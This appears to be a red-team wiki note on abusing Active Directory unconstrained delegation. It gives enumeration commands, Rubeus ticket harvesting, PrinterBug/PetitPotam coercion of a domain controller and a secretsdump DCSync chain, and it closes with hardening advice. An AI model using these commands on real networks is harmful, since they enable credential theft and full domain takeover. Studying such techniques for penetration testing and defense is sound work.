

# 08 - Unconstrained Delegation Abuse

## 1. Executive Summary

A host trusted for **unconstrained delegation** caches the **TGT of every user who authenticates to it** in memory (in a forwarded ticket). Compromise such a host and you can extract those TGTs — and if you **coerce a Domain Controller** to authenticate to it (PrinterBug/PetitPotam), you capture the **DC's TGT** → DCSync → domain takeover. Unconstrained delegation is a legacy, dangerous setting; finding a host (or, worse, having `SeEnableDelegationPrivilege` to set it) is often a direct path to DA.

## 2. Concept Overview

When `userAccountControl` has **`TRUSTED_FOR_DELEGATION`**, the KDC includes the user's forwardable TGT in the service ticket sent to that host, and the host stores it (to impersonate the user onward). So memory of an unconstrained host = a wallet of TGTs. Pair with **coercion** to choose *whose* TGT shows up (force `DC01$` to connect → its TGT lands in memory).

## 3. Enumeration

```bash
# Find unconstrained-delegation computers (exclude DCs, which are unconstrained by design)
Get-DomainComputer -Unconstrained | select name
crackmapexec ldap <dc> -u user -p pw --trusted-for-delegation
ldapsearch ... '(userAccountControl:1.2.840.113556.1.4.803:=524288)'
```

## 4. Exploitation

```bash
# On a compromised unconstrained host: monitor for incoming TGTs
Rubeus.exe monitor /interval:5 /filter:dc01$        # watch for the DC's ticket
#   (or harvest now)
Rubeus.exe dump /nowrap

# Force the DC to authenticate to our unconstrained host (coercion)
printerbug.py 'domain/user:pw@<dc-ip>' <unconstrained-host>
#   or PetitPotam.py / dfscoerce.py

# Rubeus captures DC01$ TGT → PtT → DCSync
Rubeus.exe ptt /ticket:<dc01-tgt-b64>
secretsdump.py -k -no-pass domain/'DC01$'@<dc> -just-dc
```

## 5. Mermaid Attack Flow



## 6. Persistence
- Keep the unconstrained host + a coercion trigger as a renewable DA path; or extract krbtgt → golden ticket ([[09 - Golden Ticket Attack]] A-36).

## 7. Post-Exploitation / Data Access
- Any user's TGT that touches the host; with DC coercion → full domain.

## 8. Defense & Hardening
1. Eliminate unconstrained delegation (migrate to constrained/RBCD); never set it on non-DC hosts.
2. Mark Tier-0/sensitive accounts **"Account is sensitive and cannot be delegated"** / add to **Protected Users** (their TGTs won't be delegated/cached).
3. Mitigate coercion (disable Spooler on DCs, PetitPotam patch, RPC filters); monitor `TRUSTED_FOR_DELEGATION` changes + DC authentications to member servers.

## 9. Chaining & Related Notes
- Coercion shared with **[[04 - AD CS NTLM Relay ESC8 and Coercion]]**; endgame **[[15 - DCSync Attack]]** / **[[09 - Golden Ticket Attack]]** (A-36).
- Delegation siblings: **[[07 - Resource-Based Constrained Delegation Abuse]]**, **[[09 - Constrained Delegation Abuse]]**.

## 10. Tools
`Rubeus` (monitor/dump/ptt), `printerbug.py`, `PetitPotam.py`, `dfscoerce.py`, `secretsdump.py`, `mimikatz` (sekurlsa::tickets).
